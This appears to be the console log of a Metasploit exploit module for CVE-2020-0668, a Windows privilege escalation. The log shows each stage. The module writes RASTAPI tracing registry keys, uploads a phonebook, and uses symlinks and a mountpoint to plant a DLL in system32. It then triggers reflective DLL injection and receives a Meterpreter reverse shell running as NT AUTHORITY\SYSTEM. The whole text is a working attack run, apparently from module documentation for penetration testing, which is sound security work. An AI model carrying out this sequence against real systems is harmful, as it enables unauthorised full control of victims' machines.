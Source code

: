   ```
[*] Writing FileDirectory to HKLM\SOFTWARE\Microsoft\Tracing\RASTAPI
[*] Writing MaxFileSize to HKLM\SOFTWARE\Microsoft\Tracing\RASTAPI
[*] Uploading phonebook to DESKTOP-D1E425Q as C:\Users\msfuser\AppData\Local\Temp\TSvczqClZf.pbk from /home/tmoose/rapid7/metasploit-framework/data/exploits/cve-2020-0668/phonebook.txt
[*] Phonebook uploaded on DESKTOP-D1E425Q to C:\Users\msfuser\AppData\Local\Temp\TSvczqClZf.pbk
[*] Launching Rasdialer
[*] Running Rasdialer with phonebook C:\Users\msfuser\AppData\Local\Temp\TSvczqClZf.pbk
[*] Connecting to VPNTEST...

Remote Access error 807 - The network connection between your computer and the VPN server was interrupted.  This can be caused by a problem in the VPN transmission and is commonly the result of internet latency or simply that your VPN server has reached capacity.  Please try to reconnect to the VPN server.  If this problem persists, contact the VPN administrator and analyze quality of network connectivity.

For more help on this error:
	Type 'hh netcfg.chm'
	In help, click Troubleshooting, then Error Messages, then 807
[*] Checking on C:\Windows\system32\WindowsCoreDeviceInfo.dll
[*] Upload payload md5 = b8341507939ea464f81f0245628e470f
[*] Moved payload md5 = b8341507939ea464f81f0245628e470f
[*] Cleaning up before triggering dll load...
[*] Removing Registry keys
[*] Deleting EnableFileTracing from HKLM\SOFTWARE\Microsoft\Tracing\RASTAPI key
[*] Deleting FileDirectory from HKLM\SOFTWARE\Microsoft\Tracing\RASTAPI key
[*] Deleting MaxFileSize from HKLM\SOFTWARE\Microsoft\Tracing\RASTAPI key
[*] Removing Symlinks
[*] Closing symlink handle 704: The operation completed successfully.
[*] Closing symlink handle 688: The operation completed successfully.
[*] Removing Mountpoint
[*] Removing directories
[*] Triggering the Reflective DLL injection and running the LPE DLL...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[!] Manual cleanup after reboot required for C:\Windows\system32\WindowsCoreDeviceInfo.dll and C:\Users\msfuser\AppData\Local\Temp\jeYpOx
[*] Exploit complete.  It may take up to 10 minutes to get a session
[*] Sending stage (206403 bytes) to 192.168.132.125
[*] Meterpreter session 2 opened (192.168.135.168:4444 -> 192.168.132.125:49680) at 2020-04-29 09:39:54 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

